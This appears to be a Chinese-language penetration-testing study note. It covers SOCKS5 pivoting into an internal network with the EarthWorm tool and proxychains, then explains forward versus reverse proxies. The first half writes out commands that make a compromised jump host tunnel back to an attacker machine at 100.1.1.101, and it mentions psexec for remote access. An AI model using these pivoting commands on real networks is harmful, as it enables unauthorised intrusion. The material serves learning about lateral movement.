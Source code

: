 ### socks5

> [通过SOCKS代理渗透整个内网 - 狂客 - 博客园 (cnblogs.com)](https://www.cnblogs.com/kuangke/p/11133693.html)

![img](./assets/v2-afbc489aacfa5fc50163e515cc281cbd_720w.webp)

四步走

1. 攻陷一台跳板机
2. kali上添加一个转接隧道，把本地1080端口收到的代理请求转交给1234端口。
3. web服务器上启动SOCKS5服务，并反弹到kali的1234端口上。
4. 配置proxychains.conf  /etc/proxychains.conf  去掉dynamic_chain的注释 添加代理socks5 127.0.0.1 1080

> [终于有人把正向代理和反向代理解释的明明白白了！-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1418457)

> 工具：**EarthWorm**
>
> [idlefire/ew: 内网穿透(跨平台) (github.com)](https://github.com/idlefire/ew)
>
> proxychains_win
>
> [proxychains for windows 用法 - 下站见 (xiazhanjian.com)](https://www.xiazhanjian.com/archives/proxychainsforwindows.html)
>
> [EarthWorm(ew)使用教程 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/259634.html)
>
> [内网渗透：使用ew实现socks代理 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/234254.html)

一次具体实施（似乎不太对）:

1.在win10攻击机上运行：

```
ew_for_Win -s rcsocks -l 1080 -e 1234
```

添加一个转接隧道，把本地1080端口收到的代理请求转交给1234端口

2.在攻陷的跳板机上：

```
ew_for_Win -s rssocks -d 100.1.1.101 -e 1234
```

跳板机上启动SOCKS5服务，并反弹到IP地址为100.1.1.101（攻击机）的1234端口上。

3.攻击机启动proxychains：

![image-20231219113111060](./assets/image-20231219113111060.png)

使用psexec进行远程连接

![image-20231219135236653](./assets/image-20231219135236653.png)



代理与反向代理：

![image-20231219092416652](./assets/image-20231219092416652.png)

**正向代理（forward proxy）：是一个位于客户端和目标服务器之间的服务器(代理服务器)，为了从目标服务器取得内容，客户端向代理服务器发送一个请求并指定目标，然后代理服务器向目标服务器转交请求并将获得的内容返回给客户端。**

**所以，正向代理，其实是"代理服务器"代理了"客户端"，去和"目标服务器"进行交互。**

目标服务器是不知道真正的客户端是谁的

![image-20231219092429780](./assets/image-20231219092429780.png)

**反向代理：是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个反向代理服务器。**

**所以，反向代理，其实是"代理服务器"代理了"目标服务器"，去和"客户端"进行交互。**

客户端是不知道真正的目标服务器是谁的

#### **正向代理和反向代理的区别**



虽然正向代理服务器和反向代理服务器所处的位置都是客户端和真实服务器之间，所做的事情也都是把客户端的请求转发给服务器，再把服务器的响应转发给客户端，但是二者之间还是有一定的差异的。



1、**正向代理其实是客户端的代理**，帮助客户端访问其无法访问的服务器资源。**反向代理则是服务器的代理**，帮助服务器做负载均衡，安全防护等。



2、**正向代理一般是客户端架设的**，比如在自己的机器上安装一个代理软件。而**反向代理一般是服务器架设的**，比如在自己的机器集群中部署一个反向代理服务器。



3、**正向代理中，服务器不知道真正的客户端到底是谁**，以为访问自己的就是真实的客户端。而在**反向代理中，客户端不知道真正的服务器是谁**，以为自己访问的就是真实的服务器。



4、正向代理和反向代理的作用和目的不同。**正向代理主要是用来解决访问限制问题。而反向代理则是提供负载均衡、安全防护等作用。二者均能提高访问速度。**